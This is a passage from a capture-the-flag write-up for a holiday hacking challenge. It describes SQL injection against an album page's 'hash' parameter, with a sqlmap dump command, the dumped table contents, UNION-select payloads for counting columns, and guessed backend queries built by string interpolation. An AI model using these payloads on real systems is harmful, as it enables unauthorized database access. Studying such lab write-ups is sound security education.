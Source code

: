 ```bash
$ sqlmap -u https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k -p hash --dbms MySQL --dump
```

Well, we see there two tables: *album* and *photo*, but no *users*, *admins*, *passwords*... so the flag is not here :(.

```
Table: album
+----+--------+-----------+
| id | hash   | name      |
+----+--------+-----------+
| 1  | 3dir42 | Xmas 2018 |
| 2  | 59grop | Xmas 2019 |
| 3  | jdh34k | Xmas 2020 |
+----+--------+-----------+

Table: photo
+----+----------+--------------------------------------+
| id | album_id | photo                                |
+----+----------+--------------------------------------+
| 1  | 1        | 0a382c6177b04386e1a45ceeaa812e4e.jpg |
| 2  | 1        | 1254314b8292b8f790862d63fa5dce8f.jpg |
| 3  | 2        | 32febb19572b12435a6a390c08e8d3da.jpg |
| 4  | 3        | db507bdb186d33a719eb045603020cec.jpg |
| 5  | 3        | 9b881af8b32ff07f6daada95ff70dc3a.jpg |
| 6  | 3        | 13d74554c30e1069714a5a9edda8c94d.jpg |
+----+----------+--------------------------------------+
```

Let's check how many fields selected in the query, will use *union attack* for that:

- `' and 1=0 union select 1 -- .` - error 404
- `' and 1=0 union select 1,2 -- .` - error 404
- `' and 1=0 union select 1,2,3 -- .` - album page

So the query selects three fields. Let's detect what fields are selected:

- the 1st field is `album.id`, because when we change the value to 1, 2 or 3, the pictures from the different albums are loaded. When the value is 4, no pictures are loaded.
- the 2nd field is unused on the page.
- and the 3rd field is `album.name`.

Now let's imagine how the app selects the data:

1.I suppose there are two SQL queries, in the first one, the album record is selected and filtered by `hash`:
```sql
select * from album
where hash='{hash}'
```

2.In the second one, the photo record is selected and filtered by `album_id`. And `album_id` is used from the previous query.
```sql
select * from photo
where album_id='{album_id}'
```
